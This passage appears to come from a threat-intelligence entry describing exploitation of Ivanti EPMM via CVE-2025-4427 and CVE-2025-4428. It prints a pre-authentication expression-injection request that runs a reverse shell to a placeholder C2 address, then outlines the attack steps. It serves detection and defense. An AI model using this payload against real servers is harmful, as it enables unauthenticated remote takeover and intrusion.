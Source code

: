 > payload or a crafted authentication token.
> 
> A request such as :
> 
>   ```powershell
>   /mifs/rs/api/v2/featureusage?format=${''
>   .getClass().forName('java.lang.Runtime')
>   .getMethod('getRuntime').invoke(null)
>   .exec('sh -i >& /dev/tcp/C2.IP.Add.ress/8080 0>&1').waitFor()}
>   ```
> reaches the vulnerable validator before authentication, spawning a
> reverse shell.
> 3. Send the malicious request - threat actor sends the malicious
> request to the vulnerable endpoint, which can bypass the authentication
> mechanism and grant access to the system.
> 4. Gain unauthorised access - in the end as a final step a threat
> actor gains unauthorised access to the system, which can lead to
> further malicious activities, such as data breaches, lateral
> movement, or system compromise ref [4].  
> 



## 🖥️ Terrain 

 > A threat actors sends crafted queries to an Ivanti EPMM API endpoint
> used for authentication purposes in web applications. The threat actor
> is abusing a vulnerability in publicly exposed interface by sending
> queries without the need to be authorisated or authenticated. 
> 

 &nbsp;
### ❤️‍🩹 Common Vulnerability Enumeration

⚠️ ERROR : Could not successfully retrieve CVE Details, double check the broken links below to confirm the CVE ID exists.

- [💔 CVE-2025-4427](https://nvd.nist.gov/vuln/detail/CVE-2025-4427)
- [💔 CVE-2025-4428](https://nvd.nist.gov/vuln/detail/CVE-2025-4428)

&nbsp;

---

## 🕸️ Relations



### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.





---

[1]: https://help.ivanti.com/mi/help/enus/core/12.x/sys/CoreSystemManager/AccessControlLists_Po.htm
[2]: https://www.ivanti.com/blog/epmm-security-update
[3]: https://portal.cert.europa.eu/document/all-organisations/operational/2f4d98/fcffb09e-0c52-11ef-8289-0050568e1fc4/details?special=True
[4]: https://labs.watchtowr.com/expression-payloads-meet-mayhem-cve-2025-4427-and-cve-2025-4428